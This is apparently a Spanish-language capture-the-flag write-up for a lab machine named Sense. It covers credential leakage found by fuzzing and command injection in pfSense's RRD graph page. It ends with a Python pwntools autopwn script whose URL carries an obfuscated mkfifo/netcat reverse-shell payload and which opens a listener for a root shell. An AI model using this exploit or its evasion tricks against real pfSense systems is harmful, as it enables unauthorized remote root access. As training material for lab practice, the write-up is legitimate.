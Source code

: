 ---------
- Tags: #python-scripting #pfsense #information-leakage
---------
## Tecnicas utilizadas
- Information Leakage  
- PFsense - Abusing RRD Graphs (RCE) [Evasion Techniques]  
- Python Exploit Development (AutoPwn) [EXTRA]
## Procedimiento

![[Pasted image 20230615120759.png]]

#### Reconocimiento

El escaneo de nmap nos da los siguientes puertos:


Si hacemos un whatweb contra la pagina podemos ver las tecnologias que corren por detres:

#### Information Leakage  

Visitando la pagina, vemos que es un CMS de nombre **Sense**. Si tratamos de fuzzear por archivos con terminacion *.txt* podemos encontrar un archivo interesante que contiene credenciales para acceder al CMS.

-------------
#### PFsense - Abusing RRD Graphs (RCE) [Evasion Techniques]  

Una vez con la credencial, se filtra la versión y con esta podemos buscar por exploits mas especificos. Hay uno que automatiza la explotacion y nos da una revershell shell como root.

------------------
#### Python Exploit Development (AutoPwn) [EXTRA]

Podemos automatizar completamente la intrusion a la maquina con el siguiente script

```python

from pwn import *
import pdb, requests, signal, sys, urllib3, time, re, threading

def def_handler(sig,frame):
	print("\n[!] Saliendo...")
	sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "https://<ip>/index.php"
rce_url = """https//<ip>/status_rrd_graph_img.php?database=queues;guion=$(printf "\\055");ampersand=$(printf "\\046");rm ${HOME}tmp${HOME}f;mkfifo ${HOME}tmp${HOME}f;cat ${HOME}tmp${HOME}f|${HOME}bin${HOME}sh ${guion}i 2>${ampersand}1|nc ip port >${HOME}tmp${HOME}f"""
lport = 443
def executeCommand():

	#crea una sesion
	s = requests.session()
	#deshabilita el warining del certificado autofirmado -> https
	urllib3.disable_warnings() 
	s.verify = False

	#tramita una peticion
	r = s.get(main_url)

	#obtenemos el csrfToken con una expresion regular
	csrfToken = re.findall(r'<cadena>', r.text)[0]

	#definimos la data que vamos a tramitar
	post_data = {
		'<data>':'<data>'
	}
	#mandamos la data, con la cual nos vamos a loguear
	r = s.post(main_url, data=post_data)
	#atentamos contra el RCE
	r = s.get(rce_url)
	

if __name__ == "__main__":

	try:
		# declaramos la funcion que necesitamos paralelizar
		threading.Thread(target=executeCommand, args=()).start()
	except Exception as e:
		#mostramos el error en formato string con pwntools
		log.error(str(e))

	#nos ponemos en escucha, de manera paralela, se ejecuta la funcion de arriba.
	shell = listen(lport, timeout=20).wait_for_connection()
	#invocamos una shell interactiva
	shell.interactive()
	
```

